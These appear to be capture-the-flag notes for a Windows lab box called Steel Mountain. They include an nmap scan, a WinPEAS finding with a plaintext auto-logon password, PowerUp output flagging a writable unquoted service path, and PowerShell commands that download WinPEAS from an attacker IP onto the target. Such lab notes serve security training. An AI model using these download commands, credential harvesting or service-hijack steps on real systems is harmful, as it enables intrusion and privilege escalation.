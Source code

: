 ## STEEL MOUNTAIN

# OPEN PORTS
```
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
| rdp-ntlm-info: 
|   Target_Name: STEELMOUNTAIN
|   NetBIOS_Domain_Name: STEELMOUNTAIN
|   NetBIOS_Computer_Name: STEELMOUNTAIN
|   DNS_Domain_Name: steelmountain
|   DNS_Computer_Name: steelmountain
|   Product_Version: 6.3.9600
|_  System_Time: 2021-08-21T02:11:26+00:00
| ssl-cert: Subject: commonName=steelmountain
| Not valid before: 2021-08-20T02:06:32
|_Not valid after:  2022-02-19T02:06:32
|_ssl-date: 2021-08-21T02:11:32+00:00; +5s from scanner time.
8080/tcp  open  http               HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC

```
# OS INFO
```
Windows Server 2008 R2 - 2012
```

# WinPEAS Enum

No AV detected

BILL HAS AUTO LOGON ENABLED
Username: bill
Password: PMBAf5KhZAxVhvqb

# PowerUp.ps1

# Vulnerable Service with write perms

```ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths
```

powershell -c "$source = 'http://10.2.87.252:443/winPEASx64.exe' $destination ='C:\Users\bill\Desktop\winpeas.exe' Invoke-WebRequest -Uri $source -OutFile $destination"

powershell -c wget "http://10.2.87.252/wp.exe" -outfile "winPEAS.exe"

powershell -c "Invoke-WebRequest -Uri 'http://10.2.87.252/wp.exe' -OutFile 'C:\Users\bill\Desktop\winpeas.exe'"